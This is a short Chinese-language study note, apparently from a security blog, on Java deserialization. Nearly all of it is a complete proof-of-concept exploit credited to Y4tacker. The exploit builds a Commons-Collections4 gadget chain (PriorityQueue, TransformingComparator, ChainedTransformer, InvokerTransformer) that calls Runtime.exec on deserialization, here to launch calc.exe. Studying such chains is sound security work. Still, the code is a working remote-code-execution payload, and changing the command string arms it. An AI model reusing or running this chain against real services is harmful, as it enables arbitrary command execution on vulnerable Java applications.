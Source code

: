 



## 另外一种思路

先上POC ，这个是Y4tacker大佬写的，学习一下

```java
package org.example;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

public class App {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Comparator comparator = new TransformingComparator(transformerChain);

        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(1);
        queue.add(2);

        setFieldValue(transformerChain, "iTransformers", transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}

```